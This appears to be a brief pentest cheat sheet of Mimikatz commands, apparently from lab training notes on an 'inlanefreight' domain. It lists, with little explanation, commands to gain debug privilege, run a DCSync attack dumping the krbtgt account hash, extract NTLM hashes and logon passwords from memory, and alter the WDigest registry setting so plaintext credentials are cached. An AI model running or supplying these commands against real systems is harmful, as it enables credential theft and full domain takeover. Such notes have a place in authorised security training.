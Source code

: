 
debug
```powershell-session
privilege::debug
```

dcsync attack
```powershell-session
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```

Extract NTLM hashes for users on local host
```
privilege::debug 
sekurlsa::logonpasswords
```


If password hash not crackable enable wdigest in registry
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

